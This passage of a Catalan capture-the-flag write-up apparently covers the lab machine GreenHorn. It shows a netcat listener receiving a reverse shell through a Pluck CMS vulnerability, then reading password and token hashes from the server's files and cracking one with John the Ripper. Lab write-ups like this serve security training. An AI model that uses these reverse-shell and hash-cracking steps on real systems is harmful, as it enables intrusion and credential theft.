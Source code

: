 I si anem al port per el qual estavem escoltant veiem que estem al servidor amb l'usuari de la web, l'usuari www-data:

```
┌──(polkali㉿kaliPol)-[~/Documents/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.106] from (UNKNOWN) [10.10.11.25] 35914
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 21:26:34 up 40 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ `
```

A la ruta ``/var/www/html/pluck/data/settings`` trobem un fitxer prometedor que es diu pass.php que conté el hash del que sembla ser una contrasenya:

```
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>`
```

També hi ha un fitxer anomenat token.php amb el següent contingut, que deu ser un token en format hash:

``<?php $token = '796273ca8e92e0d91eaf8a2831631a286768f6631afce10bbba34b32f9dcde4338e7284b159646720c209b1cc7315e92959606f12516fbf6be129be10ceb71f2'; ?>``

Per tant, provarem de crackejar aquestes dos contrasenyes amb John the ripper a veure si tenim sort i les podem obtenir. Per longitud i format ens diu el ChatGPT que segurament és un hash SHA-512, per tant serà el primer que provarem:

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/GreenHorn]
└─# john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou1        (?)     
1g 0:00:00:00 DONE (2024-07-27 23:43) 25.00g/s 76800p/s 76800c/s 76800C/s 123456..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed. `
```

Sembla que hem tingut èxit i hem obtingut la password: iloveyou1
